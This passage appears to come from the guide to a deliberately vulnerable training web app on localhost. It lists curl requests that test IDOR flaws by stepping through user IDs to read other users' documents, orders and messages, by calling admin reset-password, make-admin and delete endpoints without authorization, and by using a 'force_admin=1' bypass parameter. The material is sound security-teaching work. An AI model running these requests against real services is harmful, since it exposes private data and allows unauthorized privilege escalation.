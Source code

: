 ```bash
# View reports by specific authors
curl http://localhost:8083/reports/author/1
curl http://localhost:8083/reports/author/2
```

### 3. API Endpoint IDOR Testing

#### RESTful API Vulnerabilities
```bash
# Get user profile data
curl http://localhost:8083/api/users/1
curl http://localhost:8083/api/users/2
curl http://localhost:8083/api/users/5

# Get user-specific documents
curl http://localhost:8083/api/users/1/documents
curl http://localhost:8083/api/users/3/documents

# Get user order history
curl http://localhost:8083/api/users/1/orders
curl http://localhost:8083/api/users/4/orders

# Get user messages
curl http://localhost:8083/api/users/2/messages
curl http://localhost:8083/api/users/5/messages

# Get complete user data dump
curl http://localhost:8083/api/users/1/data
curl http://localhost:8083/api/users/3/data
```

### 4. Admin Function IDOR Testing

#### Privilege Escalation via Path Manipulation
```bash
# Try to access admin functions without proper authorization
curl http://localhost:8083/admin/users/1/view-data
curl http://localhost:8083/admin/users/2/reset-password
curl http://localhost:8083/admin/users/3/make-admin
curl http://localhost:8083/admin/users/4/delete

# Test admin bypass parameter
curl "http://localhost:8083/admin.php?force_admin=1"
```

## 🔍 Testing Scenarios

### Scenario 1: Employee Data Access
**Goal:** As `bob.wilson` (employee), access other employees' sensitive data
